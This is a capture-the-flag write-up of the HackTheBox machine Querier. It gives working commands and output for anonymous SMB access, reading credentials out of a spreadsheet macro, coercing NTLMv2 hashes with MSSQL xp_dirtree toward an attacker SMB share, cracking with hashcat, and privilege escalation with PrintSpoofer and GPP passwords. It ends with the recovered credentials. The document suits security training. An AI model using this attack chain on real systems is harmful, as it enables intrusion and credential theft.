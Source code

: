 ```yaml
---
description: >-
  Querier HTB Machine
title: Querier (Medium)                # Add title here
date: 2023-04-24 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Medium]                     # Change Templates to Writeup
tags: [smb null session, macro, xslm, mssql, xp_dirtree, impacket-smbserver, ntlmv2, printspoofer, seimpersonateprivilege, gpp credentials]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Querier.png                # Add infocard image here for post preview image
---
```

### Host entries:
```bash
10.10.10.125 QUERIER querier.htb.local querier.htb
```
If Active Directory => [[Synchronize NTP]] with the domain controller.

### Content

- SMB Null Session
- Macro identification on XSLM
- MSSQL connection and XP_DIRTREE abusing
- Capturing Hash NTLMv2 with impacket-smbserver
- SeImpersonatePrivilege abuse with PrintSpoofer
- Extra: Hardcoded Credentials on GPP

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.125
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.125 ()   Status: Up
Host: 10.10.10.125 ()   Ports: 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///, 1433/open/tcp//ms-sql-s///, 5985/open/tcp//wsman///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49665/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////, 49671/open/tcp/////
```
Services and Versions running:
```bash
nmap -sCV -p 135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-24 22:25 EDT
Nmap scan report for 10.10.10.125
Host is up (0.14s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-04-25T02:05:06
|_Not valid after:  2053-04-25T02:05:06
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
|_ssl-date: 2023-04-25T02:26:42+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| ms-sql-info:
|   10.10.10.125:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time:
|   date: 2023-04-25T02:26:38
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.20 seconds
```

SMB Server allows Null Session inside the share we identify the following file:
```bash
smbclient //10.10.10.125/Reports -N             

Try "help" to get a list of possible commands.
smb: \> 
smb: \> dir
  .                                   D        0  Mon Jan 28 17:23:48 2019
  ..                                  D        0  Mon Jan 28 17:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 16:21:34 2019
```
Analazying such file with libre office we can see that there are some macros inside the file, and within there are some credentials:

![Description](/assets/img/Pasted image 20230424201223.png)

### Exploitation

Credentials can be abused to connect to the database via `-windows-auth` flag with `impacket-mssqlclient`
```bash
impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -p 1433 -windows-auth
```

Inside the database we figure out that we can abuse the store procedure `xp_dirtree` as follows:
```bash
# On MSSQL Database
SQL> xp_dirtree '\\10.10.16.3\smbFolder'

# On Local SMB Server
mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b3b0394de521e05770107d7fe25abf31:010100000000000000f37f0e2277d901ddf254c8a9edcf400000000001001000480077006100420072004e004c00700003001000480077006100420072004e004c00700002001000440078006c0055004d00510057004a0004001000440078006c0055004d00510057004a000700080000f37f0e2277d90106000400020000000800300030000000000000000000000000300000566073c64a37e4c7a4f134a66825f8122c78c7e68dc2e89ab9af254688c3e8680a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000
```

Then we proceed to crack the hash with hashcat:
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 5600 -a 0 hash.txt rockyou.txt

mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b3b0394de521e05770107d7fe25abf31:010100000000000000f37f0e2277d901ddf254c8a9edcf400000000001001000480077006100420072004e004c00700003001000480077006100420072004e004c00700002001000440078006c0055004d00510057004a0004001000440078006c0055004d00510057004a000700080000f37f0e2277d90106000400020000000800300030000000000000000000000000300000566073c64a37e4c7a4f134a66825f8122c78c7e68dc2e89ab9af254688c3e8680a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000:corporate568
```

### Root privesc
Enumerating the privileges with this user we identify the SeImpersonatePrivilege:

```powershell
C:\Windows\Temp\privesc> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name   Description       
==============   ===========       
SeAssignPrimaryTokenPrivilege Replace a process level token SelncreaseQuotaPrivitege	Adjust memory quotas for a	process
SeChangeNotifyPrivilege	Bypass traverse checking
SelmpersonatePrivilege	Impersonate a client after	authentication
SeCreateGlobalPrivilege	Create global objects
SelncreaseWorkingSetPrivilege Increase a process working	set

```
Also enumerating the system server info we identify that this server is a Windows Server 2019:
```powershell
C:\Users\Administrator\Desktop> systemínfo
Host Name: QUERIER
OS Name: Microsoft Windows Server 2019 Standard
OS Version: 10.0.17763 N/A Build 17763
```
In order to abuse of SeImpersonatePrivilege we can abuse of [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to escalate privileges:
```powershell
C:\Windows\Temp\privesc> PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SelmpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami whoami
nt authority\system
```

### Post Exploitation
There is another way to escalate privileges through hardcoded credentials of Administrator (this is to be found via WinPEAS.exe):
```powershell
C:\Windows\Temp\privesc> winPEASx64.exe

....
Cached GPP Passwords

C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Found C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
rName: Administrator
    NewName: [BLANK]
    cPassword: MyUnclesAreMarioAndLuigi!!1!
    Changed: 2019-01-28 23:12:48
...
```

### Credentials
```text
reporting:PcwTWTHRwryjc$c6
mssql-svc:corporate568
Administrator:MyUnclesAreMarioAndLuigi!!1!
```


